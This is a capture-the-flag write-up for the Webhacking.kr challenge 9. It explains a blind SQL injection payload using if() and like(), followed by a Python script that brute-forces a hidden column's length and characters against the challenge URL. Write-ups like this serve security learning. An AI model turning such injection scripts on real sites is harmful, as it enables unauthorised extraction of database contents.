 ```yaml
---
title: Webhacking.kr 9 Write-Up
description: Another SQL injection problem.
category: web
date: 1690156800000
---
```


## Important things I learnt

### SQL if statement
 `if(A, B, C)` if A is true, returns B or returns C.

### like() operator
 `like()` operator is the same as `=`.

### database() function
 This function returns the current database’s name.

## Understanding

![some text](/illustrations/webhacking.kr-9/image-1.png)

After clicking on the `3` link, I got an image like this:

![Alt text](/illustrations/webhacking.kr-9/image-2.png)

I tried some basic SQL injections but failed.

## Exploitation

I tried this SQL injection, `if(length(id)like(5),1,99)`. And it worked!

![Alt text](/illustrations/webhacking.kr-9/image-3.png)

This SQL statement does two things:

1. Finding every row with the **5**-length `id` column.
2. AND finding the value with `no=1`.

By using this, I can get the No. 3’s length and its contents.

```python
import requests

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \
            AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':''}
keyword = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

length = -1
result = ""

for i in range(1,200):
  url = f'https://webhacking.kr/challenge/web-09/?no=if(length(id)like({i}),3,99)'
  res = requests.get(url, headers=headers, cookies=cookies)
  if "Secret" in res.text:
    length = i
    break

print("Length", length)

for i in range(1, length+1):
  for key in keyword:
    url = f'https://webhacking.kr/challenge/web-09/?no=if(substr(id,{i},1)like({hex(ord(key))}),3,99)'
    res = requests.get(url, headers=headers, cookies=cookies)
    if "Secret" in res.text:
      result += key
      break

print(result)
```
